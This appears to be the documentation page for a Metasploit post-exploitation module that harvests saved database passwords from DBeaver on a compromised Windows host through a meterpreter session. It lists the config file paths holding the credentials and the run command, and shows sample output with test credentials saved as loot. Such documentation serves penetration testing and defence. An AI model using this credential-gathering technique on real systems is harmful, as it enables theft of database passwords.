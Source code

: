 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and Dbeaver full version
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of Dbeaver (https://dbeaver.io/files/6.1.0/) and latest version.
  2. Select default installation
  3. Open the software and create a database connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: `run post/windows/gather/credentials/dbeaver`
  3. If the system has registry keys for Dbeaver passwords they will be printed out.

## Options

 **XML_FILE_PATH**

- Specify an XML configuration file.
- eg. `C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml` or 
      `C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver-data-sources.xml`

 **JSON_DIR_PATH**

- Specifies the config dir path for Dbeaver.
- Ensure that there are two files `credentials-config.json` and `data-sources.json` under the directory
- eg. `"C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/dbeaver

[*] Gather Dbeaver Passwords on FireEye
[+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt
[*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml
[+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt
[+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt
[*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver
[+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt
[+] Dbeaver Password
================

Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type
----             --------    --------   ----  --------  --------        --        ---                                        ----
Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev
Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev
localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test
postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod

meterpreter > 
```
